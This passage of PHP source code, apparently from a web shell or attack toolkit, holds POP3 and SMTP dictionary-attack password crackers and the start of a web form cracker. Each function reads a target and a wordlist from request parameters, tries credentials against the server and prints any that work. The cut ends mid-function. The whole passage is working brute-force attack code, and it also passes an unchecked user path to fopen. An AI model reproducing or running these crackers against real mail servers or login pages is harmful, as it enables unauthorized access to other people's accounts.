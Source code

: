 $user=(!empty($_REQUEST['user']))?$_REQUEST['user']:"";
$dictionary=fopen($_REQUEST['dictionary'],'r');
if ($dictionary){
echo "&lt;font color=blue&gt;Cracking ".htmlspecialchars($target)."...&lt;br&gt;";flusheR();
while(!feof($dictionary)){
if($type){
$combo=trim(fgets($dictionary)," \n\r");
$user=substr($combo,0,strpos($combo,':'));
$pass=substr($combo,strpos($combo,':')+1);
}else{
$pass=trim(fgets($dictionary)," \n\r");
}
$pop3=pop3logiN($target,$user,$pass);
if($pop3==-1){echo "$errorbox Can not connect to server.$et";break;} else{
if ($pop3){echo "U: $user P: $pass&lt;br&gt;";if(!$type)break;}}
flusheR();
}
echo "&lt;br&gt;Done&lt;/font&gt;";
fclose($dictionary);
}
else{
echo "$errorbox Can not open dictionary.$et";
}
}else echo "&lt;center&gt;${t}POP3 cracker:$crack";
}
function smtpcrackeR(){
global $t,$et,$errorbox,$crack;
if (!empty($_REQUEST['target']) && !empty($_REQUEST['dictionary'])){
$target=$_REQUEST['target'];
$type=$_REQUEST['combo'];
$user=(!empty($_REQUEST['user']))?$_REQUEST['user']:"";
$dictionary=fopen($_REQUEST['dictionary'],'r');
if ($dictionary){
echo "&lt;font color=blue&gt;Cracking ".htmlspecialchars($target)."...&lt;br&gt;";flusheR();
while(!feof($dictionary)){
if($type){
$combo=trim(fgets($dictionary)," \n\r");
$user=substr($combo,0,strpos($combo,':'));
$pass=substr($combo,strpos($combo,':')+1);
}else{
$pass=trim(fgets($dictionary)," \n\r");
}
$smtp=smtplogiN($target,$user,$pass,5);
if($smtp==-1){echo "$errorbox Can not connect to server.$et";break;} else{
if ($smtp){echo "U: $user P: $pass&lt;br&gt;";if(!$type)break;}}
flusheR();
}
echo "&lt;br&gt;Done&lt;/font&gt;";
fclose($dictionary);
}
else{
echo "$errorbox Can not open dictionary.$et";
}
}else echo "&lt;center&gt;${t}SMTP cracker:$crack";
}
function formcrackeR(){
global $errorbox,$footer,$et,$hcwd;
if(!empty($_REQUEST['start'])){
$url=$_REQUEST['target'];
$uf=$_REQUEST['userf'];
$pf=$_REQUEST['passf'];
$sf=$_REQUEST['submitf'];
$sv=$_REQUEST['submitv'];
$method=$_REQUEST['method'];